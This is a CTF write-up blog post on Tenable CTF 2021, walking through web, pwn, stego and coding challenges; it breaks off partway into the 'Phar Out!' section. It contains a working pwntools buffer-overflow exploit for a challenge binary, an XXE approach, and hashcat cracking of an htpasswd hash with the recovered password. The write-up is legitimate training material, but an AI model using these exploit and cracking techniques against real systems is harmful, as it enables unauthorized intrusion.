





This last weekend (+ Friday) I participated in [Tenable CTF 2021](https://tenable.ctfd.io/) along with [CaptureTheFrancesinha](https://ctftime.org/team/111459), the CTF team of my student branch and the one I'm currently more engaged with. We managed to place 147th out of 1762 scoring teams worldwide, which was quite nice! Our team scored 2575 points across several different categories.

Once again I tried to focus on the `Pwn` challenges, which proved to be quite challenging, requiring a lot more reversing than "usual".
I later switched my focus to other categories, for example getting a lot of Web tasks.

Since I currently have some things on hold, I managed to focus a lot on this CTF, especially for the first two days I participated (Friday and Saturday).
As such, together with some team members we managed to get most of the challenges solved, especially the easier ones!

This CTF was a bit on the easier side - especially compared with some of the harder ones we've participated in recently, which helped motivate the team to participate more actively on the CTF!

Below I list the challenges I solved, along with a small writeup.
In regards to the weird points: the scoring was not dynamic and as such some challenges that had near to no solves were scored with a low value as the organization thought they would be easy while the opposite occurred for some other challenges (for example Weird Transmission, which netted us a lot of points despite being quite easy once you know the trick to it).

## Challenge list

* [Send a Letter (Web) - 50 points](#Send-a-Letter)
* [Certificate of Authenticity (Web) - 25 points](#Certificate-of-Authenticity)
* [Protected Directory (Web) - 50 points](#Protected-Directory)
* [One Byte at a Time (Misc) - 50 points](#One-Byte-at-a-Time)
* [Queen's Gambit (Pwn) - 125 points](#Queens-Gambit)
* [Weird Transmission (Stego) - 175 points](#Weird-Transmission)
* [A3S Turtles (Stego) - 250 points](#A3S-Turtles)
* [Reggie McRegex (Misc) - 25 points](#Reggie-McRegex)
* [Print N Lowest Numbers (Code) - 25 points](#Print-N-Lowest-Numbers)
* [Parsey Mcparser (Code) - 50 points](#Parsey-Mcparser)
* [Spring MVC 1-6 (Web) - 25 points each](#Spring-MVC-1-to-6)
* [Spring MVC 7 (Hiding in Plain Sight) (Web) - 50 points)](#Spring-MVC-7)
* [Spring MVC 8 (Sessionable) (Web) - 75 points)](#Spring-MVC-8)
* [Phar Out! (Web) - 125 points](#Phar-Out)

## Send a Letter (Web) - 50 points {#Send-a-Letter}

When submitting a letter to be "mailed", an alert popped up mentioning that the message had been logged in `/tmp/messages_out.txt`. We can conclude that this file may possibly contain the flag.

When looking at the JavaScript code that sends the request, I noticed that it was sending a full XML payload, even including the XML node. Going from experience, having seen this before in other CTFs, this usually is a prime target for [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing).

Inserting a typical payload (like those found in the OWASP page linked above) we can extract this file and get the flag! To do this it is possible to simply use Firefox devtools. No other software is necessary! (Of course you could do this with burp suite, curl, httpie, etc. but Firefox devtools are quite handy as is!)



Flag: `flag{xxe_aww_yeah}`

## Certificate of Authenticity (Web) - 25 points {#Certificate-of-Authenticity}

For this one, all we had to do is go to the provided URL and change the URL scheme to HTTPS.
Firefox would then present us with a warning about this being a self-signed certificate.

Firefox was kind enough to include a button to inspect the certificate. Upon clicking it, we can find that the certificate's common name was the flag itself!



## Protected Directory (Web) - 50 points {#Protected-Directory}

This challenge used the same website as [Certificate of Authenticity](#Certificate-of-Authenticity) (which was also used for some other challenges).

Upon applying some type of dirbusting to the page (a teammate used `dirb` IIRC) we found an `.htpasswd` file on the web server's root directory.

Its contents:

```
admin:$apr1$1U8G15kK$tr9xPqBn68moYoH4atbg20
```

So the user is admin and the password is hashed... Onto `hashcat`! Using mode 1600 we can try to crack this `"Apache $apr1$ MD5, md5apr1, MD5 (APR)"` hash (as indicated by the `$apr1$`).

Sadly, trying `rockyou.txt` did not result in cracking the hash after going at it for a while with my laptop. I then thought of applying rule files, but concluded that even best64 would take forever since my laptop only has an iGPU.
As such, I sent the hash over to a PC I use for gaming that has a decent GPU and cracked the hash there with `rockyou.txt` + `d3ad0ne.rule`. It cracked in only 20 minutes!

The password was `alesh16` and after accessing the `/admin` directory we got the flag (which I unfortunately did not take screenshots of nor record in a text file, so I can't show it here now 🙃)!

By the way, using `best64.rule` with `rockyou.txt` my laptop got the hash after an hour or so. I had both cracking at the same time just in case one would be faster than the other.
Using `best64.rule` on the desktop PC cracks the hash in about 3-4 minutes which is pretty nice! All of this using `-O` for optimized back-ends, otherwise the expected time to crack was of several hours or even a day!

## One Byte at a Time (Misc) - 50 points {#One-Byte-at-a-Time}

This one was easy but interesting. Upon connecting to the provided host and port using netcat we got the following output:

```
~/CTF/tenable_ctf_2021/One Byte at a Time py(ctf) !1
miguel@miguel-xps$ nc challenges.ctfd.io 30468

Show me how much of the flag you know and I'll help you with the rest.'

[flag]>flag

You seem to know the first 4 characters of the flag!
XORing the next flag character with a random octet taken from some unknown IPv4 address I have...

0x0c
```

Running this several times results in 3 different hexadecimal values, apparently alternating at random.
So, we can use the flag prefix to check if the octets are always the same.

Using `f` as input and afterwards `fl` we get 6 hexadecimal values which we can XOR with `l` and `a` respectively to get the octets, if they are always the same for the different characters:

```
~/CTF/tenable_ctf_2021/One Byte at a Time
miguel@miguel-xps$ python find_octets.py
First: [2, 16, 119]
Second: [16, 2, 119]
```

So, the octets seem to always be the same and they are `[2, 16, 119]`!

Now we can make a simple script to solve the challenge!

```python
from pwn import *
from collections import defaultdict

def test_flag(flag):
    print('.')
    r = remote('challenges.ctfd.io', 30468)

    r.recvlines(3)
    r.sendline(flag) # reached flag prompt

    r.recvuntil('know the first ')
    n_chars = int(r.recvregex('^\d+$'))
    r.recvlines(3) # irrelevant stuff
    hex_result = int(r.recvline().strip(), 16)
    r.close()

    return [n_chars, hex_result]

def get_char_from_hexes(hex_data):
    ip_octet = [2, 16, 119]
    assert len(hex_data) == 3
    candidate_chars = defaultdict(int) # each key will start with the value of 0

    for hex_octet in hex_data:
        for ip_byte in ip_octet:
            candidate_chars[chr(hex_octet ^ ip_byte)] += 1

    # Get the key with the max value
    result_char = max(candidate_chars, key=candidate_chars.get)
    # print(result_char)
    return result_char


if __name__ == '__main__':
    q_test_flag = context.quietfunc(test_flag)
    # flag_so_far = 'flag{'
    # flag_so_far = 'flag{f0'
    # flag_so_far = 'flag{f0ll0w_t'
    # flag_so_far = 'flag{f0ll0w_th3_whit3_r'
    # flag_so_far = 'flag{f0ll0w_th3_whit3_r@bb1t'
    flag_so_far = 'flag{f0ll0w_th3_whit3_r@bb1t}'
    print(f"Current flag: '{flag_so_far}'\n    -> size: {len(flag_so_far)}")

    hexes_for_char = set()
    while True:
        while len(hexes_for_char) < 3:
            n_chars, hex_data = q_test_flag(flag_so_far)
            hexes_for_char.add(hex_data)
        # got 3 hex bytes, can get a new character
        new_char = get_char_from_hexes(hexes_for_char)
        flag_so_far += new_char
        print(f"Current flag: '{flag_so_far}'\n    -> size: {len(flag_so_far)}")
        hexes_for_char.clear()

        if new_char == '}':
            print("\nDone!")
            break
```

As you can see from the comments, the flag is `flag{f0ll0w_th3_whit3_r@bb1t}`. I had to keep restarting the program because sometimes the connection would reset.
I suspect that either the server was overloaded or we were connecting and disconnecting too frequently/quickly. I had no idea of what to do other than put a `sleep` somewhere and I had places to be so just rerunning the script with the updated variable was the path I chose. Sorry, servers!

## Queen's Gambit (Pwn) - 125 points {#Queens-Gambit}

This was an interesting Pwn challenge since it required a lot more reverse engineering than is usual. I'll include the cleaned-up version of my exploit script and try to explain it afterwards.

```python
from pwn import *

context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.binary = elf = ELF('./chess')

def conn():
    if args.REMOTE:
        return remote("challenges.ctfd.io", 30458)
    else:
        return process()

r = conn()
if not args.REMOTE and not args.NO_GDB:
    gdb.attach(r)
    pass

WIN_ADDR = 0x004011c2
SOLUTIONS = [b'Ra1', b'Qg7', b'Kd2']

# banner
r.recvlines(5)
# piece
r.recvlines(12)
# banner2
r.recvlines(6)
# menu
r.recvlines(5)
print(r.recvline())

# debug for GDB attach
pause()

# menu opt
r.sendline('1')
# name
r.send(b'A'*15)

# enter puzzle 1

# Detecting EIP overrun
# payload = cyclic(122)
# eip_offset = cyclic_find(0x61616174)
eip_offset = 76

r.sendline(SOLUTIONS[0])
# We need to fill the 'message' buffer with more characters so that memset is called with a larger length and inserts the null bytes we need and can't send using p64
r.sendline(SOLUTIONS[1] + b' ' + b'C'*(eip_offset + 16))
r.sendline(SOLUTIONS[2] + b' ' + b'B'*(eip_offset) + p64(WIN_ADDR))

r.interactive()

r.close()
```

From using `ghidra` on the program we could easily understand the structure of it: First, we would reach a menu that would prompt us to choose between "Play", "Chess Server Admin" or "Quit". Since "Quit" closed the program and "Chess Server Admin" just printed "Unauthorized" and "The Admin interface has been disabled in this version.", we were left with no other option than playing the game. The disassembled puzzle functions were something like this (I'm showing the first one with a lot of variables renamed to something half-decent, as the binary was stripped):

```c
void puzzle1(void) {
  int iVar1;
  char input_move [8];

  puts("\n\n============== Puzzle One =================\n");
  printf("  h    g    f    e    d    c    b    a  ");
  printf(s__________________________________004040a0);
  printf("|    | WK |    |    |    |    |    |    | 1");
  printf(s__|____|____|____|____|____|____|_00404120);
  printf("| WP |    |    |    |    |    |    | BR | 2");
  printf(s__|____|____|____|____|____|____|_00404120);
  printf("|    |    | BK |    |    |    |    |    | 3");
  printf(s__|____|____|____|____|____|____|_00404120);
  printf("|    |    |    |    |    |    |    |    | 4");
  printf(s__|____|____|____|____|____|____|_00404120);
  printf("|    | BP |    |    |    |    |    |    | 5");
  printf(s__|____|____|____|____|____|____|_00404120);
  printf(s_|_|_|_|_|_|_|_|_|_004040e0);
  printf(" 6");
  printf(s__|____|____|____|____|____|____|_00404120);
  printf(s_|_|_|_|_|_|_|_|_|_004040e0);
  printf(" 7");
  printf(s__|____|____|____|____|____|____|_00404120);
  printf(s_|_|_|_|_|_|_|_|_|_004040e0);
  printf(" 8");
  printf(s__|____|____|____|____|____|____|_00404120);
  puts("\nBlack to move. Choose and enter the best move :\n");
  printf("- Rh2\n- Ra1\n- h1\n\n>> ");
  fgets(&DAT_shared_move_buf,0x80,stdin);
  __isoc99_sscanf(&DAT_shared_move_buf,&DAT_percent_s,input_move);
  iVar1 = strcmp(input_move,"Ra1");
  if (iVar1 != 0) {
    puts("\nIncorrect!!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return;
}
```

This printed out a board and asked for a move to be selected from a set of moves. Can you spot the vulnerability here? The data is received using `fgets` into a buffer that is large enough and despite `sscanf` being used with `%s` which may have allowed us to write too much data to the 8 byte buffer. However, we need to also get the right move, otherwise the program will `exit()`! The trick lies in the `scanf` family's man page, in the specification of the `s` format specifier:

> "Matches  a  sequence  of  non-white-space characters; the next pointer must be a pointer to the initial element of a character array that is long enough to hold the input sequence and the terminating null byte ('\0'), which is added automatically. The input string stops at white space or at the maximum field width, whichever occurs first."

So, if we send `Ra1 something`, with both words separated with a space, the full input gets saved to the global DAT variable but `input_move` will only be `Ra1`! This does not seem very interesting as is, but it starts to become more relevant once we look at the disassembly of `main`'s "play" section:

```c
printf("Enter your name:\n>> ");
fgets(input_name,0x10,stdin);
sVar1 = strlen(input_name);
input_name[sVar1 - 1] = '\0';
puzzle1();
// Build success string
sVar1 = strlen((char *)message);
*(undefined8 *)((long)message + sVar1) = 0x746172676e6f430a;
*(undefined8 *)((long)message + sVar1 + 8) = 0x736e6f6974616c75;
*(undefined2 *)((long)auStack152 + sVar1) = 0x20;
strcat((char *)message,input_name);
sVar1 = strlen((char *)message);
*(undefined8 *)((long)message + sVar1) = 0x612072756f592021;
*(undefined8 *)((long)message + sVar1 + 8) = 0x617720726577736e;
*(undefined8 *)((long)auStack152 + sVar1) = 0x636572726f632073;
*(undefined8 *)((long)auStack152 + sVar1 + 8) = 0x72756f590a0a2174;
*(undefined8 *)((long)auStack152 + sVar1 + 0x10) = 0x676e696e6e697720;
*(undefined8 *)((long)auStack152 + sVar1 + 0x18) = 0x61772065766f6d20;
*(undefined4 *)((long)&uStack120 + sVar1) = 0xa203a73;
*(undefined *)((long)auStack112 + (sVar1 - 4)) = 0;
strcat((char *)message,&DAT_shared_move_buf);
printf((char *)message);
sVar1 = strlen((char *)message);
memset(message,0,sVar1);
puzzle2();
sVar1 = strlen((char *)message);
*(undefined8 *)((long)message + sVar1) = 0x746172676e6f430a;
*(undefined8 *)((long)message + sVar1 + 8) = 0x736e6f6974616c75;
*(undefined2 *)((long)auStack152 + sVar1) = 0x20;
strcat((char *)message,input_name);
// ...
// Build success string
// ...
printf((char *)message);
sVar1 = strlen((char *)message);
memset(message,0,sVar1);
puzzle3();
// ...
// Build success string
// ...
printf((char *)message);
puts(
    "\n\nYou defeated the Borgovotron!\nKeep training and you\'ll be a Grand Master in notime!!!\n"
    );
```

So, after we input our name, whenever we finish a puzzle a message is printed that includes both the name and winning move. A keen eye will notice that there's a format string vulnerability here straight away. Despite noticing this, I did not explore it further, since I found that it was possible to trigger a crash by just overflowing the `message` buffer with a large `DAT_shared_move_buf`. However, I have heard from other participants in the CTF that they used this format string vulnerability to overwrite GOT entries to get RCE. I should probably also learn how to do that as that seems quite useful and I've never done it before.

After experimenting with payload sizes, 122 bytes of De Bruijn sequence were able to trigger a SEGFAULT. We can get the correct offset using `pwntool`'s capabilities, which was 76. However, after setting everything up as expected, the exploit did not work! I struggled to understand why for a while, until I noticed using `gdb` that the address was not correct. It had 2 bytes on the higher bits of the address that had apparently random values... Adding more padding pushed them out, but the address would also be incorrect... Finally, I found out what had happened! Only one null byte was being accepted by `fgets`!

For a while I struggled with how to send more NULL bytes, thinking of other addresses to redirect execution to, but all the possibilities I considered still had this same problem. After a while, I wondered about the `memset` call and figured out it was the way out I needed! If `memset` is setting the whole buffer to 0, we can just send the exploit as is and the rest of the buffer will be null bytes if we sent a big enough string previously! As such, that was what I did and it worked out! Despite this being a simple BOF, it still required some reverse engineering to understand program flow and how to bypass several issues such as the comparison with the move solutions and not being able to send more null bytes. I thoroughly enjoyed this challenge despite all the effort it took!

## Weird Transmission (Stego) - 175 points {#Weird-Transmission}

From the name and category I already had an idea of what could be happening and suspected the usual solution for these challenges, [SSTV](https://en.wikipedia.org/wiki/Slow-scan_television).
This challenge at least had a fun little twist in which an "Alien" user was in a discord voice channel broadcasting the audio stream.

I used the Robot36 Android app to capture the audio from my laptop's speakers and got the flag!





The output was a bit janky, but the flag was still readable thankfully!
It was `flag{Noah_th3_s4vi0ur}`

Considering the reduced difficulty of the challenge once the technique was discovered (and it has appeared in a LOT of CTFs lately), this challenge felt a bit overscored IMO.

## A3S Turtles (Stego) - 250 points {#A3S-Turtles}

In this challenge we are given a `turtles128.zip` file, the description stating that it was "turtles all the way down!"

Using `fcrackzip` I discovered that the zip's password was `0`. While this is a weird password, I took the win and thought this would soon be over.
Boy, was I wrong! `turtles128.zip` unzipped into `turtles127.zip` which unzipped into `turtles126.zip`... You get the gist! It truly was turtles all the way down!

The password of `0` did not work forever, though. When it failed, I tried `1` and that worked, so I just believed that we needed to increment the password whenever it failed. This was also wrong!
In the end, it was either `0` or `1` which already seemed suspicious. As such, in the script I created to unzip all the turtle zips I stored the used password for each zip, suspecting it may be a binary something!

In fact, in the end, when unzipping `turtles1.zip`, we get `key.png`:



This and the challenge name made me suspect about AES (even AES-128, given the initial zip file's name).
Using [CyberChef]() we could use the AES Decrypt module in AES mode to get the flag! We just had to use the zip passwords (`00111101110010010000011011110110100100101000111011101000100000101100110010110001101110001011110111010001010010101010001001001100`) as data and the key as, well, the key! The flag was `flag{steg0_a3s}`.

Overall a fun and creative challenge, albeit simple to solve! The python script I used to unzip the files:

```python
from zipfile import ZipFile

# the password
currval = 0
data = ''

for i in range(128, 0, -1):
    with ZipFile(f"turtles{i}.zip") as zf:
        while True:
            try:
                zf.extractall(pwd=str(currval).encode())
                data += str(currval)
                print(i, currval)
                # Managed to extract without exception
                break
            except RuntimeError:
                # toggle between 1 and 0
                currval = 1 - currval

print(data)
```

## Reggie McRegex (Misc) - 25 points {#Reggie-McRegex}

The problem statement mentioned that we had to apply regex to find the flag and that it had up to 16 lowercase characters IIRC (the problem statement is no longer available).

In truth, running `grep -oE 'flag\{[a-z_]{,16}\}' haystack.txt | wc -l` shows us that there are at least 44521 possible flags to look at. As such, I started looking at the larger ones for human-readable text, thinking the flag would more likely be longer rather than shorter.

This hunch paid out as there were only 121 matches that had between 15 and 16 lowercase letters, and the first one was the flag! `flag{thy_flag_is_this}` was the solution!

Funnily enough, when writing this I noticed that this was the only candidate flag with 16 lowercase letters, so using that as a filter matches only the correct flag. I thought I had tried it back then and it didn't work, but I guess my regex was broken at the time :/ The more you know, I guess!

## Print N Lowest Numbers (Code) - 25 points {#Print-N-Lowest-Numbers}

The challenge name speaks for itself. We were supposed to submit the code and it would be checked on the server (presumably ran against some hidden test cases). This was the first time I saw an exercise like this in a CTF, previously only having seen it on programming platforms like leetcode and hackerrank. My solution:

```
#include <iostream>
#include <vector>
#include <algorithm>

int main() {
    std::vector<int> vec;
    unsigned short nLowest;
    unsigned int length;
    std::cin >> nLowest;
    std::cin >> length;

    int input;
    for (int i=0;i<length;i++) {
	std::cin >> input;
	vec.push_back(input);
    }
    std::sort(vec.begin(), vec.end());

    for(int i = 0; i < nLowest; ++i) {
	std::cout << vec.at(i) << " ";
    }
    std::cout << std::endl;
}
```

## Parsey Mcparser (Code) - 50 points {#Parsey-Mcparser}

The objective for this one was to create a python script that would parse an input in this format: `Group|random data blob with some kind of JSON structures`. An example:

```
Black|+++,Bellhomes LLC.,["age":39, "user_name":"Reid Jolley", "Group":"Black"],+++,Greek Ideas,["age":63, "user_name":"Lucius Chadwell", "Group":"Green"],["age":63, "user_name":"Cary Rizzuto", "Group":"Black"],["age":28, "user_name":"Shoshana Bickett", "Group":"Yellow"],["age":69, "user_name":"Madeleine Swallow", "Group":"Green"],["age":41, "user_name":"Buddy Etter", "Group":"Black"],+++,God fire,["age":26, "user_name":"Carlene Caulder", "Group":"Green"],["age":43, "user_name":"Napoleon Peay", "Group":"Purple"],["age":44, "user_name":"Noemi Constant", "Group":"Green"]
```

We were supposed to match the group name with the "data objects" and return the `user_name`.
For the example case given above the expected output was `['Reid Jolley', 'Cary Rizzuto', 'Buddy Etter']`.
My solution:

```python
import re
import ast

# python3 vs python2...
# data = input()
data = raw_input()

group_name, blob = data.split('|')

names = []
# test='Black|+++,Bellhomes LLC.,["age":39, "user_name":"Reid Jolley", "Group":"Black"],+++,Greek Ideas,["age":63, "user_name":"Lucius Chadwell", "Group":"Green"],["age":63, "user_name":"Cary Rizzuto", "Group":"Black"],["age":28, "user_name":"Shoshana Bickett", "Group":"Yellow"],["age":69, "user_name":"Madeleine Swallow", "Group":"Green"],["age":41, "user_name":"Buddy Etter", "Group":"Black"],+++,God fire,["age":26, "user_name":"Carlene Caulder", "Group":"Green"],["age":43, "user_name":"Napoleon Peay", "Group":"Purple"],["age":44, "user_name":"Noemi Constant", "Group":"Green"]'

arrs = re.findall('\[(.*?)\]', data)
for arr in arrs:
    d = ast.literal_eval('{' + arr + '}')
    if d['Group'] == group_name:
        names.append(d['user_name'])

print(names)
```

I was sad to see that the server ran the scripts using python2 as opposed to python3. Otherwise, quite a simple one, the code speaks for itself. I also found some alternatives which just used regex to match `"user_name": something` right before the group that was given as input, which was also a smart and simple solution.

## Spring MVC 1-6 (Web) - 25 points each {#Spring-MVC-1-to-6}

The idea behind this challenges was quite interesting and something I like to see in CTFs.
We were given the source code of a Spring application as a `.zip`, which even included a pre-compiled `war` file and instructions on how to run it (quite nice of the challenge author to provide those).

Just by analysing the code, it was possible to find what we had to do to get all the flags, especially given that there were comments in the code. As an example, the source code of the main controller of the app, `src/main/java/com/tenable/ctf/mvc/MainController.java`:

```java
package com.tenable.ctf.mvc;

import org.springframework.stereotype.Controller;
import org.springframework.ui.Model;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.PostMapping;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestHeader;
import com.tenable.ctf.mvc.FlagService;
import javax.servlet.http.HttpSession;

@Controller
public class MainController {
	private FlagService flags;
	public MainController() {
		this.flags = new FlagService(); 
	}

	@GetMapping("/")
	public String index(HttpSession session, Model model, @RequestParam(name="name", required=false, defaultValue="user") String name) {
		model.addAttribute("name", name);
		session.setAttribute("sessionFlag", flags.getFlag("session_flag"));
		return ".hello";
	}

	@GetMapping("/main")
        public ModelAndView getMain() {
		ModelAndView modelAndView = new ModelAndView("flag");
                modelAndView.addObject("flag", flags.getFlag("spring_mvc_1"));	// get main
                return modelAndView;
        }

	@PostMapping("/main")
        public String postMain(@RequestParam(name="magicWord", required=false, defaultValue="") String magicWord, Model model) {
		if (magicWord.equals("please"))
			model.addAttribute("flag", flags.getFlag("spring_mvc_3"));	// post main param 
		else
                	model.addAttribute("flag", flags.getFlag("spring_mvc_2"));	// post main
                return "flag";
        }

	@PostMapping(path = "/main", consumes = "application/json")
	public String postMainJson(Model model) {
                model.addAttribute("flag", flags.getFlag("spring_mvc_4"));	// post main flag json
                return "flag";
        }

	@RequestMapping(path = "/main", method = RequestMethod.OPTIONS)
        public String optionsMain(Model model) {
                model.addAttribute("flag", flags.getFlag("spring_mvc_5"));	// options main
                return "flag";
        }

	@RequestMapping(path = "/main", method = RequestMethod.GET, headers = "Magic-Word=please")
        public String headersMain(Model model) {
                model.addAttribute("flag", flags.getFlag("spring_mvc_6"));	// headers main
                return "flag";
        }
}
```

Even without knowing Spring Boot, we can use knowledge of MVC Controllers in other web frameworks (Laravel and Phoenix are the ones I used more extensively, but notable examples also include Django, for example) and understand which HTTP requests we have to perform in order to get all the flags! There are several comments that were placed in the source code that also simplify this task.

Given the simplicity of this set of challenges, I grouped them together and will only briefly list their solving method:
1. GET `/main`
2. POST `/main` without params
3. POST `/main` with `magicWord=please`
4. POST `/main` sending any JSON in the body. Probably just setting the `Content-Type` header would work.
5. OPTIONS `/main`
6. GET `/main` with `Magic-Word` header with value `please`

These were extremely straightforward but also a good example of integrating "pseudo" code-review into CTFs.
I enjoy seeing these kinds of challenges that provide source code to see if you can spot a vulnerability.
I'll probably use these challenges as an example to show how something as simple as being able to code and look at code analytically can be helpful for solving CTF challenges!

There were also two challenges that used this same source code but did not provide code comments, and relied upon careful code inspection.
IMO at 50 and 75 points those challenges were a bit overvalued, given that I even solved them before the MVC 1-6 ones, simply due to poking around in the source code.
However, in hindsight, I understand the desire to differentiate between these challenges and the two following ones. Still, 75 points at least is a bit too much compared to the other challenges' scoring, IMO.

## Spring MVC 7 (Hiding in Plain Sight) (Web) - 50 points {#Spring-MVC-7}

Upon code inspection, we can see that passing `name=please` as parameters to GET `/` results in getting this flag in a hidden div. Either inspect element or `view-source` to get it.

## Spring MVC 8 (Sessionable) (Web) - 75 points {#Spring-MVC-8}

For this one we have to target `OtherController` (GET `/other`) with `name=admin` since the session name will be set to `admin`. Then the root template (GET `/`) will give us a flag.

## Phar Out! (Web) - 125 points {#Phar-Out}

The title of this challenge was a big hint and already got me thinking about PHAR file deserialization right off the bat.
We were provided with the source code for the webserver, including a `php.ini` file:

```
~/CTF/tenable_ctf_2021/Web/Phar Out!
miguel@miguel-xps$ ls -Rlah src/
src/:
total 104K
drwxr-xr-x 3 miguel miguel 4,0K fev 20 19:52 .
drwxr-xr-x 3 miguel miguel 4,0K fev 20 20:10 ..
-rw-r--r-- 1 miguel miguel  489 jan 13 18:41 Dockerfile
-rw-r--r-- 1 miguel miguel  164 jan 13 18:29 doit.php
-rw-r--r-- 1 miguel miguel  839 jan 13 18:29 index.php
-rw-r--r-- 1 miguel miguel  72K jan 13 18:29 php.ini
-rw-r--r-- 1 miguel miguel   12 jan 13 18:29 ports.conf
drwxr-xr-x 2 miguel miguel 4,0K jan 13 18:29 uploads
-rw-r--r-- 1 miguel miguel  210 jan 13 18:29 wrapper.php

src/uploads:
total 8,0K
drwxr-xr-x 2 miguel miguel 4,0K jan 13 18:29 .
drwxr-xr-x 3 miguel miguel 4,0K fev 20 19:52 ..
-rw-r--r-- 1 miguel miguel    0 jan 13 18:29 .htaccess
```

The creator was even nice to the point of including a Dockerfile for running the challenge locally, nice!
Looking at `php.ini`, something already seems suspicious:

```ini
[Phar]
; http://php.net/phar.readonly
extension=phar
phar.readonly = Off
```

After reading the linked documentation page, it seemed that the creator was trying to nudge us to create .phar files and upload them to the server.
Looking at `index.php` further confirmed this:

```php
<?php

include("wrapper.php");

?>

<html>
<head>
	<title>Phar Out!</title>
</head>

<body>

<p>
Upload a file, and I'll hash it with MD5 :-)
</p>
